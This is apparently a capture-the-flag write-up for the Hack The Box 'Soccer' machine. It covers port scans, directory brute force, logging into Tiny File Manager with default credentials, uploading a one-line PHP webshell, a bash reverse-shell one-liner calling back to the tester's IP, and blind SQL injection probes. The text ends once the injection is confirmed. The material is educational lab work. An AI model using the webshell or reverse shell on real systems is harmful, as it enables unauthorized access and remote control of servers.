Soccer is an easy Linux machine on the Hack The Box platform that emphasizes good enumeration The challenge starts by running gobuster against a website to discover a misconfigured file manager. Default credentials allow uploading a PHP webshell that grants access to the box. After this, a SQL injection vulnerability over a websocket connection leads to the exposure of a second user. This user can execute doas and exploiting a plugin grants root access to the machine.

## Recon

Starting reconnaissance with `namp` shows three open TCP ports: SSH on 22, HTTP on port 80, and something resembling another HTTP service on port 9091.

```bash
$ nmap -p- --min-rate 10000 10.10.11.194

Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-09 21:45 CEST
Nmap scan report for 10.10.11.194
Host is up (0.031s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9091/tcp open  xmltec-xmlmail

Nmap done: 1 IP address (1 host up) scanned in 8.95 seconds
```

> The `—min-rate` combined with the `-p-` allows running a full port scan in a matter of seconds. A neat little party to use in CTF challenges, but it could potentially cause some old hardware to fall over!


```bash
$ nmap -p 22,80,9091 -sCV 10.10.11.194

Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-09 21:47 CEST
Nmap scan report for 10.10.11.194
Host is up (0.032s latency).

PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 ad0d84a3fdcc98a478fef94915dae16d (RSA)
|   256 dfd6a39f68269dfc7c6a0c29e961f00c (ECDSA)
|_  256 5797565def793c2fcbdb35fff17c615c (ED25519)
80/tcp   open  http            nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soccer.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
9091/tcp open  xmltec-xmlmail?
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, SSLSessionReq, drda, informix:
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   GetRequest:
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 139
|     Date: Sun, 11 Jun 2023 19:47:33 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot GET /</pre>
|     </body>
|     </html>
|   HTTPOptions, RTSPRequest:
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 143
|     Date: Sun, 11 Jun 2023 19:47:33 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot OPTIONS /</pre>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9091-TCP:V=7.93%I=7%D=6/11%Time=648624D0%P=x86_64-pc-linux-gnu%r(in
SF:formix,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r
SF:\n\r\n")%r(drda,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x
SF:20close\r\n\r\n")%r(GetRequest,168,"HTTP/1\.1\x20404\x20Not\x20Found\r\
SF:nContent-Security-Policy:\x20default-src\x20'none'\r\nX-Content-Type-Op
SF:tions:\x20nosniff\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nCo
SF:ntent-Length:\x20139\r\nDate:\x20Sun,\x2011\x20Jun\x202023\x2019:47:33\
SF:x20GMT\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang
SF:=\"en\">\n<head>\n<meta\x20charset=\"utf-8\">\n<title>Error</title>\n</
SF:head>\n<body>\n<pre>Cannot\x20GET\x20/</pre>\n</body>\n</html>\n")%r(HT
SF:TPOptions,16C,"HTTP/1\.1\x20404\x20Not\x20Found\r\nContent-Security-Pol
SF:icy:\x20default-src\x20'none'\r\nX-Content-Type-Options:\x20nosniff\r\n
SF:Content-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20143\
SF:r\nDate:\x20Sun,\x2011\x20Jun\x202023\x2019:47:33\x20GMT\r\nConnection:
SF:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en\">\n<head>\n<me
SF:ta\x20charset=\"utf-8\">\n<title>Error</title>\n</head>\n<body>\n<pre>C
SF:annot\x20OPTIONS\x20/</pre>\n</body>\n</html>\n")%r(RTSPRequest,16C,"HT
SF:TP/1\.1\x20404\x20Not\x20Found\r\nContent-Security-Policy:\x20default-s
SF:rc\x20'none'\r\nX-Content-Type-Options:\x20nosniff\r\nContent-Type:\x20
SF:text/html;\x20charset=utf-8\r\nContent-Length:\x20143\r\nDate:\x20Sun,\
SF:x2011\x20Jun\x202023\x2019:47:33\x20GMT\r\nConnection:\x20close\r\n\r\n
SF:<!DOCTYPE\x20html>\n<html\x20lang=\"en\">\n<head>\n<meta\x20charset=\"u
SF:tf-8\">\n<title>Error</title>\n</head>\n<body>\n<pre>Cannot\x20OPTIONS\
SF:x20/</pre>\n</body>\n</html>\n")%r(RPCCheck,2F,"HTTP/1\.1\x20400\x20Bad
SF:\x20Request\r\nConnection:\x20close\r\n\r\n")%r(DNSVersionBindReqTCP,2F
SF:,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%
SF:r(DNSStatusRequestTCP,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnect
SF:ion:\x20close\r\n\r\n")%r(Help,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r
SF:\nConnection:\x20close\r\n\r\n")%r(SSLSessionReq,2F,"HTTP/1\.1\x20400\x
SF:20Bad\x20Request\r\nConnection:\x20close\r\n\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.60 seconds
```

Searching for the OpenSSH version header [online](https://duckduckgo.com/?q=OpenSSH+8.2p1+Ubuntu+4ubuntu0.5+(Ubuntu+Linux%3B+protocol+2.0)&t=h_&ia=web), shows that the machine is a Ubuntu 20.04 focal box. And it seems that the service running on port `80` returns a redirect to `http://soccer.htb/`. Adding this record to my `/etc/hosts` files allows me to explore the website in Firefox.


Homepage of the soccer website.

This gives access to a Football website. But none of the links on the page are actually going anywhere. Time to crack open gobuster and do a directory scan of the website `gobuster dir -u http://soccer.htb -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt`; while this is running in the background, I do some manual recon to see if I can determine the tech stack or dig up any other helpful information.

### Tech Stack

Browsing around, this website mainly consists of static pages. Looking at the response headers in BurpSuite, it leaks the `server` header indicating that this website is behind an nginx webserver:

```bash
HTTP/1.1 304 Not Modified
Server: nginx/1.18.0 (Ubuntu)
Date: Sun, 11 Jun 2023 20:13:11 GMT
Last-Modified: Thu, 17 Nov 2022 08:07:11 GMT
Connection: close
ETag: "6375ebaf-1b05"
```

Besides that, the `404` page also tells me that I‘m dealing with an nginx server.



Soccer nginx webserver is showing a 404, Not Found page.

### Brute Force

Gobuster returns the following results:



Gobuster scan result showing the /tiny endpoint redirecting to http://soccer.htb/tiny/

It finds one interesting endpoint `/tiny`

### The Tiny File Manager

After opening this URL in my browser, I get a login prompt for the Tiny File Manager. Trying default passwords like `admin:admin` doesn’t yield any results. Let's see if [ChatGPT](https://openai.com/blog/chatgpt) can share some of its infinite wisdom with me.



Ignoring the massive disclaimer it prints out, ChatGPT knows precisely what I was looking for. Asking some follow-up questions later, it shows me where I can find the source code for this project:



A quick Google search would have most likely also pointed me in the right direction. But it feels lovely to ask these questions in natural language and get a more directed and tailored response. My next question to the bot was to give me a list of known vulnerabilities and misconfigurations for this project. And that’s where it fell short! It gave me a generic OWASP top 10 common vulnerabilities and misconfiguration answer. So I guess it’s time for the human to step in again.

Going to the GitHub repo of the Tiny File Manager, the `README` file in the project states the following:

```bash
Download ZIP with latest version from master branch.

Just copy the tinyfilemanager.php to your webspace - thats all :) You can also change the file name from "tinyfilemanager.php" to something else, you know what i meant for.

Default username/password: admin/admin@123 and user/12345.

warning Warning: Please set your own username and password in $auth_users before use. password is encrypted with password_hash(). to generate new password hash here
```

Showing me two sets of default credentials:

- admin: admin@123
- user: 12345

## Initial foothold

Using the admin username and password, I get presented with the following page:



The Tiny File Manager's landing page shows all the soccer website's static assets.

The URL is [http://soccer.htb/tiny/tinyfilemanager.php?p=tiny](http://soccer.htb/tiny/tinyfilemanager.php?p=tiny), meaning ChatGPT was right, and the web server must be running PHP. Browsing around in the `tiny` directory reveals the `Tiny Fie Manager` application and an empty upload directory.



Contents of the file folder showing tinyfilemanager.php and the uploads folder.

### Shell

I craft a simple PHP webshell and save it as `cmd.php` on my local machine.

```php
<?php system($_REQUEST["cmd"]); ?>
```

Via the upload button, I can drop my reverse shell onto the server.



Combining this with `curl` I can now execute commands on the system:

```bash
$ curl http://soccer.htb/tiny/uploads/cmd.php -d 'cmd=id'

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Starting a listener on my local machine on port `8888` with netcat with `nc -lnvp 8888` and triggering the reverse shell by sending a bash reverse shell to the webserver with curl.

```bash
curl http://soccer.htb/tiny/uploads/cmd.php \
	--data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.19/8888 0>&1'" -i
```

> Note the use `--data-urlencode` parameter in this instance. This is important otherwise, the payload won’t be encoded correctly.
>



The `curl` command will hang for a while, but eventually, I can see the reverse shell coming into my `nc` listener. Next, I’ll upgrade my shell to a proper `tty`. This will make the reverse shell behave like an actual terminal. And prevent me from accidentally closing the session.

```bash
.www-data@soccer:~/html/tiny/uploads$ python3 -c 'import pty; pty.spawn("/bin/bash")'
<ds$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@soccer:~/html/tiny/uploads$ ^Z
[1]  + 10873 suspended  nc -lnvp 8888

┌──(vagrant㉿kali)-[/vagrant]
└─$ stty raw -echo; fg                                                                                                                         148 ⨯ 1 ⚙
[1]  + 10873 continued  nc -lnvp 8888

www-data@soccer:~/html/tiny/uploads$ export TERM=xterm
www-data@soccer:~/html/tiny/uploads$
```

## Pivoting to the player user

The reverse connection allows me to browse the upload directory and see that the files match what I observed earlier via the `Tiny File Manager` . But there aren’t any other exciting files in `/var/www/html`. Although it does seem like there’s one more user on the system called player.

```bash
www-data@soccer:~/html$ ls -alh /home
total 12K
drwxr-xr-x  3 root   root   4.0K Nov 17  2022 .
drwxr-xr-x 21 root   root   4.0K Dec  1  2022 ..
drwxr-xr-x  3 player player 4.0K Nov 28  2022 player

www-data@soccer:~/html$ ls -alh /home/player
total 28K
drwxr-xr-x 3 player player 4.0K Nov 28  2022 .
drwxr-xr-x 3 root   root   4.0K Nov 17  2022 ..
lrwxrwxrwx 1 root   root      9 Nov 17  2022 .bash_history -> /dev/null
-rw-r--r-- 1 player player  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 player player 3.7K Feb 25  2020 .bashrc
drwx------ 2 player player 4.0K Nov 17  2022 .cache
-rw-r--r-- 1 player player  807 Feb 25  2020 .profile
lrwxrwxrwx 1 root   root      9 Nov 17  2022 .viminfo -> /dev/null
-rw-r----- 1 root   player   33 Jun 11 19:37 user.txt
```

And this is where the first flag is located. But the `www-data` user can’t access this file, so I’ll need to pivot around. From the `nmap` scan earlier, I know there’s at least another service running on port `9091` . With netstat I can get an overview of all open ports and what processes are listening on them.

```bash
www-data@soccer:~/html$ netstat -tulpn

Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:9091            0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      1129/nginx: worker
tcp6       0      0 :::22                   :::*                    LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      1129/nginx: worker
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -
```

So I do a quick manual investigation on some interesting ports `9091`, `3000` `3306` and `33060`.

```bash
www-data@soccer:~/html$ curl -I -XGET localhost:9091
HTTP/1.1 404 Not Found
Content-Security-Policy: default-src 'none'
X-Content-Type-Options: nosniff
Content-Type: text/html; charset=utf-8
Content-Length: 139
Date: Mon, 10 Jun 2023 06:37:55 GMT
Connection: keep-alive
Keep-Alive: timeout=5

www-data@soccer:~/html$ curl -I -XGET localhost:3000
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 6749
ETag: W/"1a5d-j2rGKcxb2vG5mw817o9kuCXUG9A"
Set-Cookie: connect.sid=s%3AHicclUxgZKuWf_CahFbAgJ9yAeSymbUW.5n4VCOmkAgyNDk2enjvpqqxWETITeYiuF3bNJf7Kqqw; Path=/; HttpOnly
Date: Mon, 10 Jun 2023 06:37:57 GMT
Connection: keep-alive
Keep-Alive: timeout=5

www-data@soccer:~/html$ mysql -p 3306
Enter password:
ERROR 1045 (28000): Access denied for user 'www-data'@'localhost' (using password: YES)

www-data@soccer:~/html$ mysql -p 33060
Enter password:
ERROR 1045 (28000): Access denied for user 'www-data'@'localhost' (using password: YES)
```

But this doesn’t get me anywhere. I still don’t know what is running on port `9091`, but I see `express`, a NodeJS framework running on port `3000`. And both `3306` and `33060` seem to be MySQL instances. But it’s hard to verify any of this due to some hardening tricks this machine has applied. It turns out the `www-data` user can only read it owned processes.

```bash
www-data@soccer:~/html$ ps auxww
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
www-data    1129  0.0  0.1  54080  6192 ?        S    Jun11   0:05 nginx: worker process
www-data    1130  0.0  0.1  54080  6512 ?        S    Jun11   0:08 nginx: worker process
www-data    6128  0.0  0.0   2608   592 ?        S    06:15   0:00 sh -c bash -c 'bash -i >& /dev/tcp/10.10.14.19/8888 0>&1'
www-data    6129  0.0  0.0   3976  2892 ?        S    06:15   0:00 bash -c bash -i >& /dev/tcp/10.10.14.19/8888 0>&1
www-data    6130  0.0  0.0   4108  3456 ?        S    06:15   0:00 bash -i
www-data    6153  0.0  0.2  15956  9448 ?        S    06:19   0:00 python3 -c import pty; pty.spawn("/bin/bash")
www-data    6155  0.0  0.0   7436  3720 pts/0    Ss   06:19   0:00 /bin/bash
www-data    6494  0.0  0.0   9088  3008 pts/0    R+   06:43   0:00 ps auxww
```

The reason for this is that the `proc` file system is mounted with the `hidepid` option:

```bash
www-data@soccer:~/html$ cat /etc/fstab

LABEL=cloudimg-rootfs   /        ext4   defaults        0 1
#VAGRANT-BEGIN
# The contents below are automatically generated by Vagrant. Do not modify.
data /data vboxsf uid=1000,gid=1000,_netdev 0 0
vagrant /vagrant vboxsf uid=1000,gid=1000,_netdev 0 0
#VAGRANT-END
/dev/sda1 none swap sw 0 0
proc    /proc   proc    defaults,nodev,relatime,hidepid=2
```

### Exploring nginx

Nothing else worth of interest seems to be on the machine, so I decided to take a look at the nginx configuration in `/etc/nginx/site-enabled`

```bash
www-data@soccer:/etc/nginx/sites-enabled$ ls
default  soc-player.htb
```

The `default` configuration isn’t all that interesting and basically just wires up the redirect to `soccer.htb`. And configures the main site allowing PHP to serve `.php` files.

```bash
www-data@soccer:/etc/nginx/sites-enabled$ cat default
server {
        listen 80;
        listen [::]:80;
        server_name 0.0.0.0;
        return 301 http://soccer.htb$request_uri;
}

server {
        listen 80;
        listen [::]:80;

        server_name soccer.htb;

        root /var/www/html;
        index index.html tinyfilemanager.php;

        location / {
               try_files $uri $uri/ =404;
        }

        location ~ \.php$ {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/run/php/php7.4-fpm.sock;
        }

        location ~ /\.ht {
                deny all;
        }

}
```

The `soc-player.htb`  file, on the other hand, is interesting because it configures `nginx` to serve a different site, on a new subdomain at `soc-player.soccer.htb` . Requests for this domain are routed to `[http://localhost:3000](http://localhost:3000)` which is the `express` based web application.

```bash
www-data@soccer:/etc/nginx/sites-enabled$ cat soc-player.htb
server {
        listen 80;
        listen [::]:80;

        server_name soc-player.soccer.htb;

        root /root/app/views;

        location / {
                proxy_pass http://localhost:3000;
                proxy_http_version 1.1;
                proxy_set_header Upgrade $http_upgrade;
                proxy_set_header Connection 'upgrade';
                proxy_set_header Host $host;
                proxy_cache_bypass $http_upgrade;
        }

}
```

Time to update my `/etc/hosts` file again:

```text title="/etc/hosts"
10.10.11.194    soccer.htb soc-player.soccer.htb
```

### A whole new website

This new site looks almost identical to the first one, except now the navbar at the top contains a couple of new links `Match`, `Login` and `Signup`.


The `Match` page show a couple of matches and mentions that you get a free ticket when you sign up and login.


After creating an account and logging in, I get redirected to `/check` where I get a ticket id. Playing around with my ticket number in the search field shows me my ticket exists.



And if I try a different number, it returns an error message:



Most likely, this will be a blind boolean type of SQL injection, so I decided to  trya few examples from [hacktricks](https://book.hacktricks.xyz/pentesting-web/sql-injection#confirming-with-logical-operations) inside the search box:

| Query | Result |
| --- | --- |
| 65511' or 1=1-- - | Ticket Doesn't Exist |
| 65511” or 1=1-- - | Ticket Doesn't Exist |
| 65511 or 1=1-- - | Ticket Exists |
| 65511 or 2=1-- - | Ticket Doesn't Exist |

This confirms my assumption that I’m dealing with a SQL injection vulnerability. Looking through the requests in burpsuite it seems that submissions for this field are sent over a websocket connection. Looking closer at the URL, I notice port `9091` from the `nmap` and `netsat` scans.

